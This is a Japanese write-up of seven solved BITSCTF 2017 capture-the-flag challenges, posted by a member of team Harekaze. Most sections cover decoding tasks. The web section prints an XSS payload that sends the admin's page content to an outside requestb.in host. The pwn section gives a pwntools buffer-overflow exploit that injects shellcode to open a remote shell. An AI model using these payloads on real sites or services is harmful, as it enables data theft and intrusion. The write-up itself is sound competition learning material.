

チーム Harekaze で [BITSCTF 2017](https://bitsctf.bits-quark.org/) に参加しました。

最終的にチームで 520 点を獲得し、順位は 18 位 (得点 275 チーム中) でした。うち、私は 7 問を解いて 280 点を入れました。

以下、解いた問題の write-up です。

## [web 60] Message the admin

admin にメッセージが投げられるサービスですが、どうやらメッセージの閲覧ページに XSS があるようです。

```html
<script>(new Image).src='http://requestb.in/xxx?'+(document.body.innerHTML.match(/[0-9A-Z]+\{.+\}/ig)[0])</script>
```

を投げるとフラグが来ました。

```
BITSCTF{hsr_1s_n0t_cr3ative}
```

## [rev 80] Riskv and Reward

バイナリエディタでバイナリを眺めていると、`0x1040` から文字列と、`0x1080` からそれに対応する数値の配列がありました。

```python
s = open('riskv_and_reward', 'rb').read()
a = s[0x1040:0x1080]
b = s[0x1080:0x1100]
print ''.join(chr(a[x]) for x in b[::4])
```

を実行するとフラグが出ました。

```
BITSCTF{s0m3_r1sc5_4r3_w0rth_1t}
```

## [crypto 30] Enigma

いろいろ試していると暗号文はどうやら `0x06` と xor されているようだと分かります。

```python
def xor(s, t):
  return ''.join(chr(ord(c) ^ ord(d)) for c, d in zip(s, t))

cs = []
for x in range(1, 7):
  cs.append(open('encrypted/{}e'.format(x), 'rb').read())

for c in cs:
  print repr(xor(c, '\x06' * len(c)))
```

を実行するとフラグが出ました。

```
BITCTF{Focke-Wulf Fw 200}
```

## [for 10] Black Hole

strings で出てきた文字列を base64 でデコードするだけです。

```
BITCTF{S5 0014+81}
```

## [for 50] Tom and Jerry

USB のパケットをキャプチャしている pcap が渡されます。まずデスクリプタを確認すると、ベンダー ID が `0x056a` (ワコム)、プロダクト ID が `0x00d4` (CTL-460) と分かります。

どういうプロトコルを使っているのかググってみると、[USB Protocol - linuxwacom](http://linuxwacom.sourceforge.net/wiki/index.php/USB_Protocol#Bamboo_Stylus_Event_Packets) というページがヒットしました。あとはこれを見ながらスクリプトを書くだけです。

```python
from scapy.all import *
from PIL import Image, ImageDraw

pcap = rdpcap('Cat.pcap')
w, h = 1500, 1500
im = Image.new('RGB', (w, h))
draw = ImageDraw.Draw(im)

for p in pcap:
  buf = bytes(p)

  data = buf[0x40:]
  if len(data) < 9:
    continue

  x = data[2] | (data[3] << 8)
  y = data[4] | (data[5] << 8)
  x, y = x // 8, y // 8
  pressure = data[6] | (data[7] << 8)

  draw.ellipse((x-1, y-1, x+1, y+1), fill=(pressure, pressure, pressure))

im.save('result.png')
```

[](../images/2017-02-06_1.png)

```
BITSCTF{THE_CLOSER_YOU_LOOK_THE_LESS_YOU_SEE}
```

## [pwn 20] Command_Line

やるだけ。

```python
from pwn import *
context(os='linux', arch='amd64')
s = remote('bitsctf.bits-quark.org', 1337)
buf = int(p.recvline(), 16)
payload = ''
payload += 'A' * 24
payload += p64(buf+32)
payload += '\x90'
payload += asm(shellcraft.sh())
s.sendline(payload)
s.interactive()
s.close()
```

```
BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
```

## [pwn 30]	Random Game

バイナリを読むと `srand(time(NULL))` をしていることが分かります。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
int main(void) {
  int i;
  srand(time(NULL));
  for (i = 0; i < 30; i++) {
    printf("%d\n", rand() & 0xf);
  }
  return 0;
}
```

これをコンパイルして `./rand | nc bitsctf.bits-quark.org 1330` でフラグが出ました。

```
BITSCTF{54m3_533d_54m3_53qu3nc3}
```

## 感想

[for 50] Gh0st in the machine はキーボードで入力されていた文字列だけ見ていて、結局解けませんでした。問題文の `BITS(WORDS.IN.CAPS)` をフラグは大文字でという意味で読んでいたのですが、まさか CapsLock のことだったとは…。

[web 80] Showcasing the admin は解きたかった問題で、いろいろ悩んでいたのですが解けませんでした。
